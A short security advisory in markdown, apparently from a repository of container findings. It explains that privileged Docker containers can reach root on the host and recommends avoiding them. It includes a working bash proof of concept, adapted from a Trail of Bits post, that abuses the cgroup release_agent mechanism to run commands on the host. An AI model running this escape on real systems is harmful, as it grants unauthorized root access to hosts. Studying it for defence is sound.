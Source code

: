 # Privileged Docker Container

## Issue
Any docker container running as privileged has sufficient privledges to execute commands as root on the host operating system via:

1. Mounting the host root partition
2. Directly executing processes outside of the container namespace

## Example

The following POC is modified from https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
```bash
  d="$(dirname $(ls -x /s*/fs/c*/*/r* | head -n1))"
  mkdir -p $d/w
  echo 1 >$d/w/notify_on_release
  t="$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)"
  touch /o
  echo $t/c >$d/release_agent
  printf "#!/bin/sh\n%s > %s/o" "$cmd" "$t">/c
  chmod +x /c
  sh -c "echo 0 >$d/w/cgroup.procs"
  sleep 1
  cat /o

  # Tidy up
  rm /c /o
```

## Fix
The solution is to avoid using privileged containers when possible.

## Resources
https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
